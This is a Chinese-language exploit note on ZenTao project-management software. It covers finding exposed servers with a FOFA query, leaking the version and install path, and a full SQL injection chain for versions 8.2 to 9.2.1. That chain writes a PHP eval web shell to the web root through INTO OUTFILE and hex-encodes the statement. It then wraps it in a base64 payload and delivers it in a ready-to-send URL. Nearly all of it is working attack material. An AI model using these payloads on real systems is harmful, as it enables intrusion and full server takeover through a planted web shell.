 # 禅道漏洞

## 资产搜索
fofa app="易软天创-禅道系统"
### 获取服务版本
`/zentao/index.php?mode=getconfig`  
![](/img/version.png)
### 获取绝对路径
url随便输入，根据报错查看路径：`/zentao/3424/`  
![](/img/path.png)
## 版本8.2-9.2.1 注入漏洞 
- sql注入语句：  
```sql
select '<?php @eval($_POST[x])?>' into outfile '/opt/zbox/app/zentao/www/hack.php'
```
- 进行HEX编码(注意加密解密都不带0x，但是EXP中需要加上）：  
```hex
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027
```
- HEX编码后前面加上0x进行拼接：
```json
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
```
- 整体base64编码：
```base64
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```
- 发送EXP：
```url
http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```  
![](/img/exp.png)
参考：https://www.hacking8.com/bug-web/禅道/禅道8.2-9.2.1-注入GetShell.html


